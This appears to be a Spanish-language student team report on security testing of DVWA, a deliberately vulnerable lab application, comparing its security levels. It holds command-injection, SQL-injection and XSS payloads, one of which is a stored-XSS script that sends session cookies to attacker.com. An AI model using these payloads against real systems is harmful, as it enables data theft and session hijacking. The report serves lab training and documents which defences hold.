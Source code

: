 # 🛡️ Reporte Final de Evaluación de Seguridad DVWA
**Team 21**  

---
**Herramientas Utilizadas:**
- Damn Vulnerable Web Application (DVWA) v1.10
- Docker para entorno aislado
- Python 3.x con librerías requests, BeautifulSoup
- Scripts automatizados personalizados
- Verificación manual exhaustiva

### 1. Configurar DVWA
```bash
# Iniciar DVWA con Docker
docker run --rm -it -p 80:80 vulnerables/web-dvwa

# Acceder a: http://localhost::8080/
# Login: admin / password
# Ir a Setup → Create/Reset Database
```
---

### 2. Ejecutar Pruebas
```bash
# Instalar dependencias
pip install requests beautifulsoup4

# Ejecutar script principal
python scripts/dvwa_security_tester_fixed.py
```
### 3. Verificación Manual
```bash
# Para casos específicos que requieren verificación
python scripts/dvwa_manual_verifier.py
```


## 📊 Resultados de las Pruebas

### Resumen de Vulnerabilidades por Nivel

| Vulnerabilidad | Low | Medium | High | Impossible |
|----------------|-----|---------|------|------------|
| **Command Injection** | 🔴 CRÍTICO<br/>100% vulnerable | 🟡 MEDIO<br/>Bypass con \| | 🟡 BAJO<br/>Filtros estrictos | 🟢 SEGURO<br/>Validación completa |
| **SQL Injection** | 🔴 CRÍTICO<br/>100% vulnerable | 🟡 MEDIO<br/>Algunos bypasses | 🟡 BAJO<br/>Filtros parciales | 🟢 SEGURO<br/>Prepared statements |
| **XSS Reflected** | 🔴 ALTO<br/>100% vulnerable | 🟡 MEDIO<br/>Filtros básicos | 🟡 BAJO<br/>Filtros avanzados | 🟢 SEGURO<br/>Codificación completa |
| **XSS Stored** | 🔴 CRÍTICO<br/>100% vulnerable | 🟡 MEDIO<br/>Filtros básicos | 🟡 BAJO<br/>Filtros avanzados | 🟢 SEGURO<br/>Sanitización completa |

### 5.2 Evaluación de Impacto

#### Escenarios de Ataque Real

**Command Injection (Nivel Low):**
```bash
# Escenario: Reconocimiento del sistema
Payload: 127.0.0.1; uname -a; cat /etc/passwd; ps aux

# Impacto Potencial:
- Información del sistema operativo
- Usuarios del sistema  
- Procesos en ejecución
- Posible escalamiento de privilegios
```

**SQL Injection (Nivel Low):**
```sql
-- Escenario: Extracción completa de usuarios
Payload: 1' UNION SELECT user, password FROM users --

-- Impacto Potencial:
- Nombres de usuario y hashes de contraseñas
- Acceso no autorizado a cuentas
- Compromiso de datos sensibles
- Posible compromiso administrativo
```

**XSS Stored (Nivel Low):**
```html
<!-- Escenario: Robo de sesiones -->
<script>
document.location='http://attacker.com/steal.php?cookie='+document.cookie;
</script>

<!-- Impacto Potencial: -->
- Robo de cookies de sesión
- Suplantación de identidad
- Acceso no autorizado a cuentas
- Propagación a otros usuarios
```

---

## 📋 7. CASOS DE PRUEBA COMPLETOS

### 7.1 Command Injection

#### TC-CI-001: Ejecución Básica de Comandos
```yaml
ID: TC-CI-001
Vulnerabilidad: Command Injection
Nivel: Low
Descripción: Verificar ejecución de comandos básicos del sistema
Precondiciones: 
  - DVWA configurado en nivel Low
  - Usuario logueado como admin
Pasos:
  1. Navegar a /vulnerabilities/exec/
  2. Ingresar "127.0.0.1; whoami" en campo IP
  3. Hacer clic en Submit
  4. Observar respuesta
Resultado Esperado: Sistema rechaza entrada maliciosa
Resultado Actual: Ejecuta comando y muestra "www-data"
Estado: ❌ VULNERABLE
Riesgo: CRÍTICO
Evidencia: comando_injection_low_whoami.png
```

#### TC-CI-002: Verificación de Seguridad Nivel Impossible
```yaml
ID: TC-CI-002
Vulnerabilidad: Command Injection
Nivel: Impossible  
Descripción: Verificar que nivel impossible bloquea inyección
Precondiciones:
  - DVWA configurado en nivel Impossible
  - Usuario logueado como admin
Pasos:
  1. Cambiar nivel de seguridad a Impossible
  2. Navegar a /vulnerabilities/exec/
  3. Ingresar "127.0.0.1; whoami" en campo IP
  4. Hacer clic en Submit
  5. Verificar respuesta
Resultado Esperado: Solo output de ping, sin comando adicional
Resultado Actual: ✅ Solo se ejecuta ping
Estado: ✅ SEGURO
Implementación: filter_var() + escapeshellarg()
Evidencia: comando_injection_impossible_blocked.png
```

### 7.2 SQL Injection

#### TC-SQL-001: Bypass de Autenticación
```yaml
ID: TC-SQL-001
Vulnerabilidad: SQL Injection
Nivel: Low
Descripción: Bypass de autenticación con OR clause
Payload: "1' OR '1'='1"
Resultado Esperado: Sistema rechaza entrada maliciosa
Resultado Actual: ❌ Muestra todos los usuarios (5 vs 1 normal)
Estado: VULNERABLE
Técnica: Boolean-based injection
Riesgo: CRÍTICO
```

#### TC-SQL-002: Verificación Nivel Impossible
```yaml
ID: TC-SQL-002  
Vulnerabilidad: SQL Injection
Nivel: Impossible
Descripción: Verificar protección con prepared statements
Payload: "1' OR '1'='1"
Resultado Esperado: Entrada rechazada o sanitizada
Resultado Actual: ✅ 0 usuarios mostrados consistentemente  
Estado: SEGURO
Implementación: is_numeric() + prepared statements
Verificación: 4 payloads diferentes, mismo resultado
```

### 7.3 Cross-Site Scripting

#### TC-XSS-001: XSS Reflejado Básico
```yaml
ID: TC-XSS-001
Vulnerabilidad: XSS Reflected
Nivel: Low
Payload: "<script>alert('XSS')</script>"
Método: GET parameter 'name'
Resultado: ❌ Script ejecutado en navegador
Estado: VULNERABLE
Impacto: Ejecución de JavaScript arbitrario
```

#### TC-XSS-002: XSS Almacenado
```yaml
ID: TC-XSS-002
Vulnerabilidad: XSS Stored  
Nivel: Low
Payload: "<img src='x' onerror='alert(\"Stored\")'>"
Método: POST en guestbook
Resultado: ❌ Payload almacenado y ejecutado
Estado: VULNERABLE  
Persistencia: ✅ Se ejecuta para todos los usuarios
Impacto: Compromiso persistente
```

--- 